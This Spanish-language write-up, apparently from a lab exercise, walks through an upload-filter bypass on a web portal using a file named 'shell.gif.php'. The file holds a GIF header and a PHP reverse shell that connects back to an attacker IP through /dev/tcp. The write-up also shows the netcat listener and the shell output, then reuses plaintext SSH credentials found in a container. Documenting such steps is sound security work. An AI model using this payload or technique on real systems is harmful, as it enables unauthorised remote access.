



# 📂 Subida de archivos y obtención de ejecución remota de comandos

## Contexto

Una vez obtenido acceso al portal con privilegios de administrador, se identificó una funcionalidad que permitía a los empleados subir una imagen de perfil desde la sección:

```text
Perfil → Subir foto de perfil
```

Aparentemente, el sistema implementaba un mecanismo de filtrado para impedir la subida de archivos PHP y limitar las extensiones permitidas a imágenes.

<p align="center">
  
</p>


---

## Análisis del filtrado

Las pruebas iniciales demostraron que el servidor rechazaba directamente archivos con extensión:

```text
shell.php
```

Por tanto, se procedió a analizar posibles mecanismos de bypass del filtrado implementado.

Se observó que el sistema únicamente verificaba la cabecera del fichero y la presencia de una extensión asociada a imágenes, sin impedir la existencia de una segunda extensión ejecutable.

---

## Creación del payload

Se construyó un archivo denominado:

```text
shell.gif.php
```

cuyo contenido era:

```php
GIF89a
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.66.100/4444 0>&1'");
?>
```

La cadena:

```text
GIF89a
```

corresponde a la cabecera característica de los archivos GIF y permite que determinados mecanismos de validación interpreten el fichero como una imagen legítima.

---

## Subida del archivo

Tras seleccionar el archivo desde la sección de perfil, el sistema aceptó la carga correctamente y almacenó el fichero en el directorio:

```text
/uploads/
```

La aplicación no realizaba una validación adecuada del nombre ni eliminaba la extensión `.php`, permitiendo que el archivo permaneciera accesible desde el servidor web.

<div align="center">

<p><strong>RCE servidor web</strong></p>

<video src="./img/RCE.mp4" controls width="800"></video>

</div>

---

## Preparación del listener

En la máquina atacante se preparó un listener mediante Netcat:

```bash
nc -lvnp 4444
```

---

## Ejecución del payload

Al acceder al archivo subido:

```text
http://<IP_SERVIDOR>:8080/uploads/shell.gif.php
```

el servidor ejecutó el código PHP contenido en el fichero y estableció una conexión inversa con la máquina atacante.

---

## Obtención de la reverse shell

En la máquina Kali se recibió la conexión:

```text
connect to [192.168.66.100] from [192.168.66.10]
```

obteniéndose una shell interactiva con los privilegios del servicio web:

```text
www-data@victima:/var/www/html/uploads$
```

La ejecución del comando:

```bash
whoami
```

confirmó que el contexto de ejecución correspondía al usuario:

```text
www-data
```

<p align="center">
  
</p>

---
## Escalada de priviliegios

Dado que el hostname es 7a8a7bdb8d61 podemos intuir que estamos dentro de un contenedor de Docker

Explorando el contenedo encontramos el directorio `/shared` con el fichero `dev_credentials.txt` que contiene las siguientes credenciales

```
Usuario: dev
Password: dev123
Servicio: SSH
```

Como sabemos que el puerto 22 esta abierto con ssh podemos intentar conectarnos al servidor


<p align="center">
  
</p>

---
## Resumen del ataque

```text
Bypass del filtro de subida
            │
            ▼
    shell.gif.php
            │
            ▼
Ejecución del archivo
            │
            ▼
    Reverse shell
            │
            ▼
        www-data
            │
            ▼
exploración del contenedor
            │
            ▼
esacalada de privilegios
            │
            ▼
COMPROMISO DEL SERVIDOR WEB
```